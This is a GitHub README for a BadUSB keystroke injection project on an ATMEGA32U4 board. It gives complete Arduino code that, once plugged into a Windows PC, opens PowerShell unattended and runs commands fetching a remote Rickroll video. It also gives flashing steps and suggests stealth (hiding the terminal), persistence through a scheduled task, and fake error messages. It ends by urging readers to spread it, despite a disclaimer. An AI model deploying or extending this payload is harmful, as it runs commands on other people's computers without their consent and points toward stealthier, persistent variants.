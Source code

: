 # **HiLetGo BadUSB Beetle - Windows Keystroke Injection**

## **Overview**
This project turns the **HiLetgo BadUSB Beetle (ATMEGA32U4)** into a **keystroke injection attack tool**. Includes example payloads like the Windows-specific "Rickroll" that automatically opens and plays a Rickroll video using **PowerShell**. The payload will attempt to play the video in **Microsoft Edge (Kiosk Mode)**, and if Edge is unavailable, it will use **Windows Media Player**.

## **⚠️ Disclaimer**
This tool is for **educational and ethical hacking purposes only**. Do not use this on systems you do not own or have explicit permission to test. The misuse of this tool may result in legal consequences.

---

## **🔧 Requirements**
- **HiLetgo BadUSB Beetle (ATMEGA32U4)** or any ATMEGA32U4-based board
- **Arduino-CLI installed**
- **Windows PC for execution**
- **USB cable for flashing the board (if applicable)**

---

## **🛠️ Installation & Setup**
### **Step 1: Install Arduino-CLI**
Arduino-CLI is required to compile and upload the script to the BadUSB device.

Run the following command to install Arduino-CLI:
```bash
curl -fsSL https://raw.githubusercontent.com/arduino/arduino-cli/master/install.sh | sh
```
Verify the installation:
```bash
arduino-cli version
```

### **Step 2: Configure Arduino-CLI**
Initialize the configuration file:
```bash
arduino-cli config init
```
Update the core index and install support for ATMEGA32U4 boards:
```bash
arduino-cli core update-index
arduino-cli core install arduino:avr
```

### **Step 3: Check If Your Board is Detected**
Plug in your HiLetgo BadUSB Beetle and run:
```bash
arduino-cli board list
```
If detected, you should see an output like:
```
Port         Type              Board Name  
/dev/ttyACM0 Serial Port      Arduino Micro
```

---

## **📜 Writing the Rickroll Keystroke Injection Script**
### **1️⃣ Create a New Sketch**
Create a new file called `rickroll.ino` and paste the following script:

```cpp
#include "Keyboard.h"

void setup() {
    delay(3000); // Wait for system to be ready
    Keyboard.begin();

    // Open Run Dialog (Win + R)
    Keyboard.press(KEY_LEFT_GUI);
    Keyboard.press('r');
    Keyboard.releaseAll();
    delay(500);

    // Open PowerShell
    Keyboard.print("powershell");
    Keyboard.press(KEY_RETURN);
    Keyboard.releaseAll();
    delay(1500);

    // Command to play video in Microsoft Edge Kiosk Mode
    Keyboard.print("Start-Process msedge.exe -ArgumentList \"--kiosk https://shattereddisk.github.io/rickroll/rickroll.mp4 --edge-kiosk-type=fullscreen\"");
    Keyboard.press(KEY_RETURN);
    Keyboard.releaseAll();
    delay(1000);

    // If Edge is unavailable, use Windows Media Player
    Keyboard.print("$wmp = New-Object -ComObject WMPlayer.OCX; $wmp.URL = 'https://shattereddisk.github.io/rickroll/rickroll.mp4'; $wmp.controls.play();");
    Keyboard.press(KEY_RETURN);
    Keyboard.releaseAll();
    delay(1000);

    // Exit PowerShell
    Keyboard.print("exit");
    Keyboard.press(KEY_RETURN);
    Keyboard.releaseAll();

    Keyboard.end();
}

void loop() {}
```

---

## **🛠️ Compiling & Uploading the Script**
### **Step 1: Compile the Script**
Run the following command to compile the script for the **ATMEGA32U4**:
```bash
arduino-cli compile --fqbn arduino:avr:micro rickroll.ino
```
If your board uses the **Leonardo bootloader**, use:
```bash
arduino-cli compile --fqbn arduino:avr:leonardo rickroll.ino
```

### **Step 2: Upload the Script to the BadUSB Device**
```bash
arduino-cli upload -p /dev/ttyACM0 --fqbn arduino:avr:micro rickroll.ino
```
Replace `/dev/ttyACM0` with the correct port detected earlier.

---

## **🚀 Executing the Payload**
1. **Plug the BadUSB into a Windows PC**.
2. The script will automatically execute after a **3-second delay**.
3. It will:
   - Open **PowerShell**.
   - Launch **Microsoft Edge in Kiosk Mode** to play the Rickroll.
   - If Edge isn’t installed, it will attempt to use **Windows Media Player**.
4. The video should start playing automatically!

---

## **🎯 Troubleshooting**
### **1. The Payload Doesn't Execute**
- Ensure the script is **compiled and uploaded correctly**.
- Verify that **Arduino-CLI detects the board** with `arduino-cli board list`.
- Try increasing the delay (`delay(3000);` to `delay(5000);`) in `setup()`.

### **2. Edge Doesn’t Open in Kiosk Mode**
- Ensure **Microsoft Edge is installed** by running:
  ```powershell
  Start-Process msedge.exe
  ```
- If Edge isn’t installed, the script will automatically fall back to **Windows Media Player**.

### **3. Windows Media Player Doesn't Play the Video**
- Some Windows installations have **WMP disabled**. Try enabling it:
  ```powershell
  Start-Process wmplayer.exe
  ```

---

## **📌 Additional Enhancements**
- **Make it more stealthy**: Modify PowerShell commands to **hide the terminal**.
- **Add persistence**: Create a scheduled task that **replays the video on startup**.
- **Fake error message**: Display a message before the video plays for more fun.

---

## **📢 Final Notes**
This is a **fun and harmless demonstration** of keystroke injection attacks using the **HiLetgo BadUSB Beetle**. It serves as an **educational tool** to understand how keystroke injection works and how Windows automation can be leveraged. Check the repo for additional payloads that work on Linux, MacOS and Windows.

For any issues or improvements, feel free to **submit a pull request** or **open an issue** on GitHub.

**🎥 Now go forth and spread the Rickroll!** 🎶😂


